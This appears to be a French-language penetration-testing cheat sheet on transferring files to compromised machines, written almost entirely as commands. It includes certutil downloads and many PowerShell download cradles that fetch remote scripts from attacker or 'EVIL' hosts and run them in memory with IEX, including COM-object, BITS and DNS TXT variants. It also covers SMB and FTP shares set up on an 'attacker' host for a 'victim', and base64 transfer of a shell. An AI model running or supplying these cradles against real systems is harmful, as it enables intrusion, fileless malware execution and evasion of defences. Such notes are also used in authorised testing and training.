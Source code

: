 ```yaml
---
public: true # set to true to make the article publishable
---
```

## HTTP

### LOLBAS

```shell title="Téléchargement d'un fichier à l'aide de certutil"
certutil.exe -urlcache -split -f "http://10.10.14.149:1234/RunasCS.exe" RunasCS.exe

```

```

### Powershell

```powershell title=enregistrement du fichier
powershell.exe (Invoke-WebRequest 'http://192.168.1.2/exploit.exe' -OutFile 'exploit.exe')

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')

```

```powershell title=exécution directe d'un script powershell en mémoire (fileless)
# si besoin d'accepter des certificats autosignés :
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.2/exploit.ps1')

iwr 'http://192.168.1.2/exploit.ps1' -UseBasicParsing | IEX
```

### Variantes

```powershell
## from https://gist.github.com/HarmJ0y/bb48307ffa663256e239
# normal download cradle
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")

# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1')

# hidden IE com object
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r

# Msxml2.XMLHTTP COM object
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# WinHttp COM object (not proxy aware!)
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# using bitstransfer- touches disk!
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r

# DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
#   code to execute needs to be a base64 encoded string stored in a TXT record
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))

# from @subtee - https://gist.github.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

## SMB

```
attacker> sudo smbserver.py myshare ./ -smb2support
attacker> sudo smbserver.py myshare ./ -smb2support -user rebrec -password blah
victim> net use x: \\<ATACKER_IP>\myshare /user rebrec blah
# 
$username = 'rebrec'
$password = 'rebrec'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "S" -Root "\\192.168.10.10\Common" -PSProvider "FileSystem" -Credential $cred
```

## FTP

```
# installation
pip3 install pyftpdlib

# lancement du serveur dans le dossier courant
sudo python3 -m pyftpdlib --port 21

# téléchargement depuis la victime
PS> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```

## Transfert de tous les fichiers d'un dossier

```
# on lance un listener HTTP sur la machine où se trouve le dossier à copier
python -m http.server 8001

# on récupère tous les fichiers 
wget -r http://$TARGET_IP:8001
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
```

## Base 64

```
# si on veut transférer le fichier shell
base64 shell -w 0
# on copie le résultat dans le presse papier
# puis on le colle dans la machine distante
$ echo xxxxxxxxxxxxxxxxxxx | base64 -d > shell
```

#### Windows

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
